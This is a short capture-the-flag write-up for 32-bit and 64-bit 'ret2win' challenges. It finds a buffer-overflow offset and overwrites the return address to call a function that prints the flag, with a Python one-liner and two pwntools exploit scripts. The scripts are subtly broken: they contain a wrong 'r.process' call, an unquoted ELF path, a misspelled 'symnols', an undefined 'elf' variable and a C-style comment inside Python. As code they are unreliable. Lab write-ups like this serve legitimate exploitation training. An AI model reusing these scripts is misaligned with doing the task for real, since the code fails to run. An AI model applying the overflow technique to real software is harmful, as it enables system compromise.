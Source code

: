 
# Ret2Win 32 bit

This hallenge is a simple buffer overflow, with this command we can retrive the
distance between the start of the buffer and the return address:

```bash
pattern create 50 | ./ret2win32
sudo dmesg | tail -n1
pattern offset <address segfault>
```

In this case is 44.
Reading the code with objdump we will see that there is a function ret2win that
do a system call with '/bin/cat flag.txt', as parameter at index 0x08048659.
So we just need to rewrite the return address with the address of ret2win function.

```bash
python -c 'import struct; print("A"*44 + struct.pack("<I", 0x08048659))' | ./ret2win32
```

```python
import os
from pwn import *

r.process('./ret2win32')
r.recvuntil('>')
r.sendline(cyclic(55))
r.recvall()
core = Core('core')
eip = cyclic_find(core.eip)

bin = ELF(./ret2win32)
payload = "A" * eip
payload += p32(elf.symnols['ret2win'])

r.recvuntil('>')
r.sendline(payload)
```

# Ret2Win 64 bit

```python
import os
from pwn import *

r.process('./ret2win64')
r.recvuntil('>')
r.sendline(cyclic(50))
r.recvall()
core = Core('core')
eip = cyclic_find(core.eip) //40

bin = ELF(./ret2win64)
payload = "A" * eip
payload += p64(elf.symnols['ret2win'])

r.recvuntil('>')
r.sendline(payload)
```
